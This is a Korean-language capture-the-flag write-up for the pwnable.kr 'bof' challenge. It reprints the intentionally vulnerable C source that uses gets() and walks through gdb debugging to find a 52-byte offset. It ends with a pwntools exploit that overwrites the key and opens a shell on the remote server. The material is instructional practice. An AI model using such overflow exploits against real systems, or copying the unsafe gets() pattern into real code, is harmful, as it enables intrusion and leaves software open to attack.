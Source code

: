 # [pwnable.kr] bof문제 writeup

---

![Untitled](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof0.png)

리눅스에 wget명령어로 bof파일을 받아서 gdb-gef를 사용하여 디버깅 해보았다.

![스택에 0xdeadbeef를 넣어주고 func라는 함수를 실행한다.](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof1.png)

스택에 0xdeadbeef를 넣어주고 func라는 함수를 실행한다.

한번 func 함수를 disas 명령어로 확인해보자

![Untitled](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof2.png)

24번째, 35번째 줄에서 함수를 호출하고(어떤 함수인지는 아직 모름) cmp부분에서 0 xcafebabe랑 비교하는 걸 볼 수 있다.

한번 c언어 코드도 보자

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

c언어의 func함수 코드를 보니 대충감이 왔다.

어셈블리에서 24번째 줄에서 호출한 함수는 printf함수고, 35번째 줄에서 호출하는 함수는 gets함수다.

bof문제이기 때문에 gets에서 오버플로우를 발생시켜서 if부분에 key값을 조작하면 해결될 거 같다.

gets에서 내가 입력한 문자열이랑 key에 들어있는 0 xdeadbeef값이 얼마나 떨어져 있는지 알아내기 위해서 gdb에서 func+40(gets함수 바로 다음 부분)에 브레이크 포인트를 걸고 실행시켜보았다.

aaaa를 입력했다.

![브레이크 포인트에 멈춘 상태](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof3.png)

브레이크 포인트에 멈춘 상태

![Untitled](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof4.png)

find 명령어로 입력한 값이 저장된 위치를 찾았다.

내가 입력한 0x61616161(aaaa)로부터 0 xdeadbeef가 얼마큼 떨어져 있는지 알아내기 위해 x/20wx 0 xffffd2 dc 명령어를 사용했다

![gets로 받는 부분부터 13만큼 떨어져있다](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof5.png)

gets로 받는 부분부터 13만큼 떨어져있다

aaaa를 넣었을 때 한 칸이 0x61616161로 찼으니까 총 4x13=52만큼 문자를 입력하고 0 xcafebabe를 입력하면 조작할 수가 있다.

---

<aside>
💡 **추가내용**

</aside>

> 찾아보니 pwndbg에 더 편한 기능이 있었다. distance라는 명령어인데 각 값의 주소를 입력해주면 오프셋를 구해준다.
> 

![각 값의 주소를 구해주고](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof6.png)

각 값의 주소를 구해주고

![명령어를 사용하면](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof7.png)

명령어를 사용하면

0x34(10진수로 52) 바이트만큼 떨어져 있다고 나온다.

---

## Exploit

```python
from pwn import *

p = remote("pwnable.kr", 9000)

payload = b'a'*52

payload += p32(0xcafebabe)

p.sendline(payload)
p.interactive()
```

4번째 줄에서는 사이트에 나와있는 nc의 주소로 접속하게 해주는 코드이다. 

첫 번째 gets에서 오버플로우를 발생시켜야 하기 때문에 페이로드를 한 문자열로 끝내야 한다.

6번째 줄에서 위에서 설명한 대로 52만큼 문자를 입력해준다.

그리고 0 xcafebabe를 추가해줘야 하는데 여기가 중요하다.

### 32비트 프로그램은 리틀 엔디안 방식으로 데이터를 저장한다.

> 간단하게 설명하자면 0x12345678을 리틀 엔디안 방식으로 저장한다고 하면 78,56,34,12 이런 식으로 순서가 뒤바뀐다. 이 부분에 대해서는 개인 공부를 더해보길 바란다.
> 

앞에 52개의 문자는 더미 데이터라서 순서가 상관없었지만 0 xcafebabe는 순서가 정확해야 cmp부분을 통과할 수가 있다. pwntools에는 p32()라는 아주 좋은 함수가 있다. p32()는 값을 32비트인 리틀 엔디안 방식으로 알아서 패킹해준다.

이제 완성된 페이로드를 p.sendline으로 자동 입력이 되게 하고, p.interactive로 내가 직접 상호작용 할 수 있게 하면 완성이다. 한번 실행시켜보자.

![플래그를 읽을 수 있었다](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof8.png)

플래그를 읽을 수 있었다